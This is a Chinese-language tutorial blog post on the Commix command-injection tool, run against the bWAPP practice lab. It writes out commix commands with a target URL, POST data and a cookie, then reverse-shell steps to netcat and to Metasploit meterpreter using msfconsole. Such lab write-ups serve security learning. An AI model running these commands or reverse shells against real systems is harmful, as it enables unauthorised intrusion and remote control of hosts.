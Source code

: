 ```yaml
---
layout:     post
title:      Commix工具的使用
subtitle:   命令执行漏洞的检测工具
date:       2019-07-22
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - Commix
---
```

# 安装
安装Commix很简单，Linux下只需要输入以下命令即可：
```
git clone https://github.com/commixproject/commix.git commix
```
Windows系统只要在Github上下载源码下来，用python运行就行：
```
https://github.com/commixproject/commix
```
## 运行环境
Python 2.6.x or 2.7.x
## 运行
python commix.py [options]

# 常用命令
```
-h, --help            显示帮助信息
--verbose             开启详细模式
--install             将“commix”安装到您的系统
--version             显示当前版本
--update              检查更新
--url=URL           目标URL
--url-reload        命令执行后重新加载目标URL
--host=HOST         HTTP Host header.
--referer=REFERER   HTTP Referer header.
--user-agent=AGENT  HTTP User-Agent header.
--cookie=COOKIE     HTTP Cookie header.
--headers=HEADERS   Extra headers (e.g. 'Header1:Value1\nHeader2:Value2').
--proxy=PROXY       使用代理 (e.g. '127.0.0.1:8080').
--data=DATA         POST data to inject (use 'INJECT_HERE' tag).
--suffix=SUFFIX     Injection payload suffix string.
--prefix=PREFIX     Injection payload prefix string.
--technique=TECH    Specify a certain injection technique : 'classic',
                    'eval-based', 'time-based' or 'file-based'.
--maxlen=MAXLEN     The length of the output on time-based technique
                    (Default: 10000 chars).
--delay=DELAY       Set Time-delay for time-based and file-based
                    techniques (Default: 1 sec).
--base64            Use Base64 (enc)/(de)code trick to prevent false-
                    positive results.
```
# 检测命令执行漏洞
以bWAPP为靶机进行测试，进入OS Command injection靶场页面

![图片](../../../../img/commix_1.png)

输入一个域名后，使用抓包工具抓取HTTP请求数据包
![图片](../../../../img/commix_2.png)

然后进入Kali Linux 输入以下命令：
```
commix -u "http://10.20.40.147/bWAPP/commandi.php" --data "target=www.baidu.com&form=submit" --cookie "PHPSESSID=a26193b0ef93766968e0b2daae34971f; security_level=0"
```
![图片](../../../../img/commix_3.png)

从上图可以看到，命令执行漏洞被Commix发现，并且我们可以在命令终端上输入任意系统命令
# 反弹shell
下面我们来通过Commix反弹到NC和MSF上。
## 反弹至NC
在Commix检测到存在命令执行漏洞后，会返回一个交互行，输入以下内容后进入选项，要反弹到NC上，在Reverse TCP shells 时选1，Unix-like targets 时 选 1:
```
reverse_tcp
set LHOST your_ip
set LPORT your_port
```
![图片](../../../../img/commix_4.png)
在回车之前，先打开NC 监听端口，下图可以看到成功反弹到了NC上：
![图片](../../../../img/commix_5.png)

## 反弹至MSF
在Commix检测到存在命令执行漏洞后，会返回一个交互行，输入以下内容后进入选项，要反弹到MSF上，在Reverse TCP shells 时选2，Metarpreter reverse TCP shells 时选 8，如果靶场环境搭建在Windows上，可以选择10 。

![图片](../../../../img/commix_6.png)
回车后，会自动生成rc文件，这时我们只要打开一个新的命令终端，输入以下命令：
```
msfconsole -r /usr/share/commix/php_meterpreter.rc
```
下图可以看到，成功反弹到了MSF上
![图片](../../../../img/commix_7.png)


